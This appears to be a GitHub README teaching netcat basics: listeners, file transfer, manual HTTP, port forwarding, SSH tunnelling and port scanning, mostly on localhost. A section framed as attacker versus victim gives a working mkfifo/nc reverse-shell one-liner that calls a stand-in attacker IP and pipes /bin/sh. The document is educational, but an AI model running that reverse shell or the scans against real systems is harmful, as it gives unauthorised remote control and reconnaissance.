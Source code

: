 # Exploring the TCP/IP swiss army knife

```
Setting up the Listener
Sending requests to the listener using different protocols(ssh, mysql, http)
Making netcat as a HTTP server and manually crating HTTP response
Setting up bidirectional tcp communication
File Transfer Using netcat
Illustrating gzip compression
Sending data with gzip compressed
Manually writing a HTTP request to a server (google.com)
Banner Grabbing
Creating a reverse shell
Port Forwarding
Setting up SSH tunnel in between
Port Scanning
```

## Setting up the listener
```bash
netcat -nvlp 8080
# -n -> don't perform DNS resolution
```

## Sending request from different servers using clients for different protocols

**Setting up the listener on 22 port SSH**
```bash
sudo netcat -nvlp 8080
```

**Making connection request from SSH client**
```bash
ssh user@localhost
```

![image](https://github.com/user-attachments/assets/6bb90f6f-ff78-4613-a681-4f4acfa5e050)

### Making mysql connection request

**Setting mysql server**
```bash
sudo netcat -nvlp 3306
```

**Sending the connection request from client**
```bash
mysql -h 127.0.0.1 -u someuser -p
# -h option forces for using TCP requeset instead of unix sockets
```

![image](https://github.com/user-attachments/assets/eb5f0120-dbbd-4367-bce1-6551445dae97)

### Making netcat as HTTP server and manually writing HTTP responses

**Setting up the http server**
```bash
netcat -nvlp 8080
```
**Sending HTTP request using curl**
```bash
curl -v localhost:8080
```
**Manually writing HTTP response**
```
HTTP/1.1 200 OK
Content-Length: 13
type: text/plain

Hello, World!
```

![image](https://github.com/user-attachments/assets/77129986-f170-40fa-91cc-38ec8f0c8db1)

## Setting up the Bidirectional communication using tcp client and server

**Creating server**
```bash
sudo netcat -nvlp 4000
```

**Creating client**
```bash
netcat localhost 4000
```

![image](https://github.com/user-attachments/assets/66cafcaf-f624-424a-9b8d-981333993133)

## File Transfer using netcat

**Listener (sender)**
```bash
nc -nvlp 4000 < file.txt 
```

**Client (Receiver)**
```bash
netcat localhost 4000 > copiedFile.txt
```

![image](https://github.com/user-attachments/assets/6aed78a1-8472-488e-8af3-f781856c783e)


## Illustrating gzip compression

![image](https://github.com/user-attachments/assets/d608b5f2-c353-48dd-81ed-42f1054358b7)

## Sending Data with gzip compressed

**Server**
```bash
nc -l -p 1234 | gunzip
nc -l -p 1234 | xxd # display bytes direclty
```

**Client**
```bash
python3 -c 'print("A"*1000)' | gzip -c | nc -q 0 localhost 1234
```

![image](https://github.com/user-attachments/assets/ad875a7c-3440-493e-be71-fecc44cc0c0b)

![image](https://github.com/user-attachments/assets/d8cd72e7-b054-4d11-85b2-dac4876e7e1c)

## Making a HTTP request
```bash
nc google.com 80
```
```
GET / HTTP/1.1
Host: google.com
User-Agent: Netcat
Accept: */*
```

## Banner Grabbing
- Make connection to the respective ports. The response from the server gives the banner

## Creating Reverse shell

**Attacker machine : Listener**
```bash
nc -nvlp 4444
```

**Victim machine**
```bash
mkfifo /tmp/f; nc <attacker_IP> 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

## Port Forwarding
**Forwarding port 8000 to 9000**
```bash
while true; do nc -l -p 9000 < /tmp/nc_pipe | nc localhost 8000 > /tmp/nc_pipe; done
```

**Setup the server on 8000**
```bash
python 3-m http.server
```

## Tunneling The traffic over ssh for encryption
**Server**
```bash
python3 -m http.server 8000
```

**Creating ssh tunnel from client(port 8080 to server port 8000)**
```bash
ssh -L 8080:localhost:8000 localhost
# run this on clinet
```

**Make requeset using browser or any otyer command line utility (from client)**
```bash
curl -v loclhost:8080
# note hte port, it's not 8000(server), it's 8000(client)
```

![image](https://github.com/user-attachments/assets/fde17763-cf29-4633-bd7a-3caebf51051b)

# Port Scanning using nmap
**Scanning a single port**
```bash
nc -zv localhost 80
```
![image](https://github.com/user-attachments/assets/7ce885e6-a54e-407b-8444-6fe07123dab1)

**Scanning range of IPs**
```bash
nc -zv localhost 1-100
```
![image](https://github.com/user-attachments/assets/5ec7889a-dc9e-4b48-9af9-88fd3db7e45d)

**Scanning using UDP**
```bash
nc -zv 127.0.0.53 53
```
![image](https://github.com/user-attachments/assets/c7d52220-bc46-4ccf-8cfb-5f6f536f90e6)


